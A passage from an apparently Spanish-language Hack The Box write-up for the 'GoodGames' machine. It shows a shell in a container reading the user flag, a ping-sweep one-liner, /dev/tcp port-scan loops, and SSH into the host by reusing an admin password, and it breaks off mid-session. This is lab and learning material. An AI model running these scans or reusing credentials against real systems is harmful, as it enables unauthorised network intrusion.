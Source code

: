 ![](/assets/images/htb-writeup-GoodGames/exporttty.png)

En este punto podemos ir al directorio `/home/augustus` y visualizar la `user.txt`.

```bash

root@3a453ab39d3d:/backend# cat /home/augustus/user.txt 
24dd973d2561f1344ed1fb62a3ead878

```

Si miramos donde estamos, nos daremos cuenta de que estamos en un contenedor, así que voy a ver que **IP** tiene conectividad este contenedor, dentro de su misma subred, con un pequeño *one liner*.

```bash

root@3a453ab39d3d:/backend# for host in {1..254}; do (ping -c 1 172.19.0.${host} | grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.047 ms
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.075 ms

```

Vemos que tenemos dos **hosts** con conectividad, ahora veremos que puertos tienen abiertos cada uno, con otro simple script.

```bash

root@3a453ab39d3d:/backend# for port in {1..65535}; do echo '' > /dev/tcp/172.19.0.1/$port && echo "Puerto: $port - OPEN"; done 2>/dev/null
Puerto: 22 - OPEN
Puerto: 80 - OPEN
root@3a453ab39d3d:/backend# for port in {1..65535}; do echo '' > /dev/tcp/172.19.0.2/$port && echo "Puerto: $port - OPEN"; done 2>/dev/null
Puerto: 8085 - OPEN
Puerto: 34144 - OPEN
Puerto: 45960 - OPEN

```

Como la **172.19.0.1** tiene el puerto **22** abierto, vamos a probar a conectarnos con el usuario **augustus** y ver si han reutilizado la contraseña del panel de administración que vimos anteriormente, introduciéndole la contraseña de **superadministrator**.


```bash

root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ hostname -I
```
